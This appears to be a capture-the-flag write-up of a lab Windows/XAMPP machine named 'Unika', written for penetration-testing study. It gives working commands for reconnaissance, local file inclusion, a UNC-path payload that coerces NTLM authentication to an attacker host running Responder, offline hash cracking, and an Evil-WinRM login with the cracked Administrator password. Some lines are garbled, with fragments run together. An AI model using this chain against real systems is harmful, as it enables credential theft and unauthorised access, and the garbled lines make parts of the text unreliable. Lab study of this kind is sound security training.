




A Windows Server host running Apache/PHP (XAMPP) hosted a corporate website ("Unika") vulnerable to
Local File Inclusion via a page GET parameter. This LFI was leveraged beyond simple file
disclosure — by supplying a UNC path instead of a local file path, the target's PHP
include() function was coerced into initiating an outbound SMB connection to an
attacker-controlled listener. This is a textbook LFI-to-RFI pivot, and it forced the target to
authenticate via NTLM to a locally-hosted Responder instance, leaking a crackable NTLMv2-SSP hash for
the local Administrator account. The hash was cracked offline with hashcat against rockyou.txt,
yielding valid credentials used to obtain a full interactive shell via WinRM (Evil-WinRM), ultimately
reaching a flag in a secondary user's directory.
Initial full-port service discovery:
sudo nmap -sC -sV -A -p- --min-rate 5000 <target>| Port | Service | Version |
|---|---|---|
| 80/tcp | http | Apache httpd 2.4.52 (Win64) OpenSSL/1.1.1m PHP/8.1.1 |
| 5985/tcp | http | Microsoft HTTPAPI httpd 2.0 (WinRM) |

http-title on port 80 resolved to "Unika" — a web design agency
template site. Port 5985 confirmed WinRM was enabled, flagging it early as the likely final access
vector once credentials were obtained. OS fingerprinting suggested Windows 10 / Server 2019, later
confirmed via file paths (C:\xampp\htdocs\) as a Windows host running XAMPP.
\\ip\share) at the OS level.
Directory brute-force against the raw IP:
gobuster dir -u http://<target> -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php -t 50
This returned mostly standard site scaffolding (/img, /css, /js,
/inc) with no immediately obvious attack surface. Requesting index.php
directly returned an HTTP redirect:
<meta http-equiv="refresh" content="0;url=http://unika.htb/">This revealed the site was virtual-host bound — the application would only render correctly when accessed via its configured hostname. This was added locally:
echo "<target> unika.htb" | sudo tee -a /etc/hosts.local/.htb-style hostname surfacing
in a redirect, cert CN, or NetBIOS name should be treated as a signal that vhost-based routing is
active — access by bare IP alone will not reach the real application.
With the vhost resolved, the site rendered a full multi-page corporate template with a
language-switcher hinting at a page/lang-style GET parameter used to
dynamically include page content — a common and historically vulnerable PHP pattern
(include($_GET['page'] . '.html')).
Testing directory traversal against the identified parameter confirmed classic LFI:
http://unika.htb/index.php?page=german.html../../../../../../../windows/system32/drivers/etc/hostsThis returned the full contents of the target's Windows hosts file, unambiguously confirming:
page (not lang).C:\xampp\htdocs\index.php).
Rather than stopping at file disclosure, the same page parameter was supplied a
UNC path pointing at the attacker's own Parrot OS VM:
http://unika.htb/index.php?page=\\<attacker_ip>\shareWith Responder already listening on tun0:
sudo responder -I tun0
PHP's include() attempted to resolve the UNC path as a filesystem object. Windows' native
SMB client transparently attempted to authenticate to the attacker-hosted share to fetch it —
and failed to actually retrieve content (throwing a PHP include() warning), but
not before completing an NTLM authentication handshake against Responder's fake SMB
server.

include()
against a remote/UNC target can still trigger a real, exploitable side effect (an authentication
handshake) before the failure is surfaced to the application layer. The impact here isn't file
disclosure — it's coerced credential leakage.
The captured hash was extracted from Responder's log directory and cracked offline:
hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt
Cracked credentials:
Username: Administrator
Password: badmintonFull crack time was under a second against rockyou.txt — confirming the target's local Administrator account was configured with a weak, dictionary-crackable password.
With valid local Administrator credentials and WinRM confirmed open on 5985, access was obtained directly via Evil-WinRM:
evil-winrm -i <target> -u Administrator -p 'badminton'This dropped into a fully interactive PowerShell session as Administrator. From there, a secondary local account (mike) was identified under C:\Users\, containing the objective flag on their Desktop:
cd C:\Users\mike\Desktop
dir
type flag.txt
Flag: [flag redacted]
include() that fails to resolve a UNC path still triggers OS-level SMB authentication before the failure bubbles up — a distinct and separately dangerous outcome from classic file disclosure..htb/.local hostnames in redirects, TLS cert CNs, or NetBIOS output early in recon.Scarif Operations | th3m4dh4ck3r.com | CPTS prep, Season 11